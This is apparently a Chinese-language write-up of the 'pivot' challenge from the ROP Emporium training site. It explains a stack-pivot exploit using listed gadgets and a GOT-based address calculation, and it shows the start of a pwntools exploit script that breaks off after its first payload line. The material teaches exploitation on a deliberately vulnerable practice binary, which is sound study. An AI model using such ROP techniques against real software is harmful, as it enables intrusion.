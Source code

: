 ROP Emporium是一个提供ROP攻击学习样板程序的网站，一共8道题，每道题有64位、32位、ARM、MIPS共4种格式的ELF文件，适用于多种平台，难度依次递增。本文档为前6道题的x86_64位版本的解析。

[ROP Emporium](https://ropemporium.com/index.html)

# 7. pivot

看名字就知道，这是一道栈迁移的题目。

gadget如下，有对栈的操作，能够修改rsp，也就能进行栈迁移了。

```
.text:00000000004009BB ; ---------------------------------------------------------------------------
.text:00000000004009BB
.text:00000000004009BB usefulGadgets:
.text:00000000004009BB                 pop     rax
.text:00000000004009BC                 retn
.text:00000000004009BD ; ---------------------------------------------------------------------------
.text:00000000004009BD                 xchg    rax, rsp
.text:00000000004009BF                 retn
.text:00000000004009C0 ; ---------------------------------------------------------------------------
.text:00000000004009C0                 mov     rax, [rax]
.text:00000000004009C3                 retn
.text:00000000004009C4 ; ---------------------------------------------------------------------------
.text:00000000004009C4                 add     rax, rbp
.text:00000000004009C7                 retn
.text:00000000004009C7 ; ---------------------------------------------------------------------------
```

程序一共有两次输入的机会，第一次是在伪造的栈中，第二次是直接接在后面的ROP。第二次的ROP长度不足，因此采用栈迁移。经过试验发现，第二个ROP的长度正好足够进行栈迁移。迁移后，我们只需要返回到ret2win函数即可。但是这个函数在lib文件中，加载基地址未知。对此，我们可以调用gadget获取lib中foothold_function函数的基地址，这也是源程序中唯一一个能够在plt节中找到的lib函数。注意到有一个gadget是mov rax, [rax]，既然我们能够控制rax的值，就可以将任意地址的值写入到rax中。如果没有这个gadget，我们就需要使用puts或printf函数将地址输出并返回到main函数中再次进行ROP注入。注意到还有一个gadget是add rax, rbp。我们读取lib中的函数偏移，让rbp等于ret2win的地址与foothold_function地址之差，就能够不通过输出直接将ret2win的地址保存到rax之中（在整个过程中rbp会通过leave, push, pop等指令保持不变）。注意到程序中有一条指令为jmp rax。我们直接跳转到这条指令即可让控制流跳转到ret2win函数。我想作者不让我们使用puts函数再进行一次注入的原因可能与程序本身有关，因为除了jmp rax之外，我们无法将返回地址写到栈上，这也就强迫我们使用所有的gadget。

参考：leave指令 = mov rsp, rbp;  mov rbp, [rbp]

payload:

```python
from pwn import *
context.log_level = 'debug'

io = process('./pivot')
elf = ELF('./pivot')
lib = ELF('./libpivot.so')

rax = 0x4009bb
rsp = 0x4009bd
rax_addr = 0x4009c0
add_rax = 0x4009c4
jmp_rax = 0x4007c1
main_addr = 0x400847

io.recvuntil(b'place to pivot: 0x')
fake_stack = int(io.recv(12).decode(), 16)

# ROP chain in fake stack
payload = p64(elf.plt['foothold_function'])		# call foothold_function() first so that the .got section can be rewritten into real address of this function
```
